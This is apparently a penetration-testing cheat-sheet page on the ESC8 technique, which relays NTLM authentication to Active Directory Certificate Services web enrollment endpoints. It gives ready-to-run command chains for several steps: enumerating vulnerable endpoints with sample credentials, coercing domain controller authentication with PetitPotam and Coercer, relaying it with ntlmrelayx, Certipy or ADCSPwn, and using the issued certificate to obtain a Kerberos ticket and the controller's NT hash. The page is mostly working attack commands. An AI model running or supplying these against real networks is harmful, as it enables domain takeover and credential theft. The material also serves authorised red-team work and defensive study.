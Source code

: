 ```yaml
---
description: NTLM Relay to AD CS HTTP Endpoints
---
```


# ESC8

* [https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* [https://habr.com/ru/company/deiteriylab/blog/581758/](https://habr.com/ru/company/deiteriylab/blog/581758/)
* [https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```
PS > Get-CertificationAuthority | select name,enroll* | fl
```

Check a bunch of targets for the vulnerable endpoint:

```
$ for ip in `cat ~/ws/discover/hosts/ca.txt`; do curl -sSLkI -u 'MEGACORP\snovvcrash:Passw0rd!' --ntlm http://$ip/certsrv/certfnsh.asp | grep -e 401 -e 200 > /dev/null && echo "[+] $ip" || echo "[-] $ip"; done
```




## Exploit



### ntlmrelayx

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/fortra/impacket/pull/1101](https://github.com/fortra/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --adcs [--template VulnTemplate] --no-http-server --no-wcf-server --no-raw-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
* [https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099](https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default, but also one may use `KerberosAuthentication`):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-http-server --no-wcf-server --no-raw-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### Certipy

Prepare for the relay attack:

```
$ certipy relay -ca 192.168.1.12 -template DomainController
```



### ADCSPwn

- [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)

{% embed url="https://youtu.be/W9pUCVxe59Q" %}

Start a relay server:

```
PS > .\ADCSPwn.exe --adcs CA01.megacorp.local
```

Coerce the authentication, e. g. via [Coercer](https://github.com/p0dalirius/Coercer):

```
$ coercer coerce -u snovvcrash -p 'Passw0rd!' -t 192.168.1.11 -l VICTIM01 --auth-type http --http-port 8080
```
